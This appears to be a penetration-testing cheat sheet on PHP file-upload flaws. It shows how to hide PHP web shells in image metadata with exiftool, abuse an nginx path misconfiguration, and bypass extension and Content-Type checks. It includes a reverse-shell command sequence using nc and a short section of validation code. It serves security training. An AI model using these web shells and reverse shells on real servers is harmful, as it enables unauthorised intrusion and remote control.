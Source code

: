 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
$ strings 1.png  #get all strings from image file
$ exiftool 1.png #get meta information in files
```
Install `exiftool`:
```
$ sudo apt-get install libimage-exiftool-perl -yqq
```
Create test image:
```
$ convert -size 1x1 xc:transparent image.jpg
```

Place the PHP code in a meta-data comment:
```
$ echo '<?php system($_GET["cmd"]);?>' > 1.php
$ exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
$ curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure file-upload implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. Nginx misconfiguration for PHP apps

Docs: `https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/#passing-uncontrolled-requests-to-php`

Original upload (contains embedded PHP code `<?php echo 123;?>` in comment meta-data section):
```
$ http -b "http://$target/admin/uploads/123.png" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 3c 3f 70 68 70 20 65  |tComment.<?php e|
00000090  63 68 6f 20 31 32 33 3b  3f 3e 80 4c 58 03 00 00  |cho 123;?>.LX...|
000000a0  00 0a 49 44 41 54 08 d7  63 60 00 00 00 02 00 01  |..IDAT..c`......|
000000b0  e2 21 bc 33 00 00 00 00  49 45 4e 44 ae 42 60 82  |.!.3....IEND.B`.|
000000c0
```

Abusing the misconfiguration (comment section contains the output of the PHP code `Comment.123`):
```
$ http -b "http://$target/admin/uploads/123.png/.php" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 31 32 33 80 4c 58 03  |tComment.123.LX.|
00000090  00 00 00 0a 49 44 41 54  08 d7 63 60 00 00 00 02  |....IDAT..c`....|
000000a0  00 01 e2 21 bc 33 00 00  00 00 49 45 4e 44 ae 42  |...!.3....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```

Reverse shell with embedded PHP inside image:
```
$ exiftool -all='' image.png
$ exiftool -comment='<?=system($_GET["cmd"]);?>' image.png # upload this on server
$ ncat -nlvp 9999 # your local listener
$ cmd='nc $your_ip 9999 -e /bin/bash'
$ http http://$target/admin/uploads/123.png/.php?cmd="$cmd"
```

#### 1.5. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```

##### Example 3:

Change the original file type in the request from `Content-Type: text/php` to `Content-Type: image/png`:
```
POST /upload/ HTTP/1.1
[FORMATTING CUT]
Content-Disposition: form-data; name="uploaded"; filename="f.php"
Content-Type: image/png

<?php echo 1234;
```
